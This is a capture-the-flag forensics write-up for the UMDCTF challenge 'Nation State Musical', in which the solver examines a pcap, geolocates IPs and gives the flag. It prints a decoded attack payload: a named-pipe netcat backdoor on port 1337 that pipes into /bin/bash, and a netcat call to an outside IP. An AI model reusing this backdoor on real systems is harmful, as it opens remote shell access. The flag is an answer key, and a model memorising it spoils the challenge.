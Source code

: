 # Nation State Musical
**Category:** Forensics

**Points:** ???

**Description:**
> **Author:** t0pc4r
>
> **Hint:** "Oh no! It looks like a nation state is trying to attack one
>        of UMDs routers! Using a pcap generated from the attack, try
> 	     to determine which nation state the attack is coming from.
>
>	Beware, you only have five guesses.

> The flag will be in the format UMDCTF-{Country}"

> **Note:** "Do not attempt to communicate with or contact any of
       the IP addresses mentioned in the challenge. The challenge
	   can and should be solved statically."

> **Given:** Pcap file "attack.pcap"

## Writeup
Looking at the pcap file, we can see there are A LOT of TCP packets
from ONE source to ONE destination. I ran a whois on the source IP
address, which showed that the IP was from Ukraine, but that's too easy.

I looked at the pcap file a little more to realize that one of the TCP
packets had data associated to it. I did a quick hex to ascii and the
output was:

```
ÿþ';
rm -f backd00r
mkfifo backd00r
nc -lk 1337 0<backd00r | /bin/bash 1>backd00
echo '<5= :V@5<V=' | nc 37.46.96.0 1337
```

I can see that another IP addressed is being used, so I ran another whois
on this other IP. The IP was from Kazakhstan, so I tried the flag,
UMDCTF-{Kazakhstan} and it worked.

There is probably an explanation to why this IP address is the actual source
of the attacks, but I'm not too sure what it is.

## Flag
UMDCTF-{Kazakhstan}
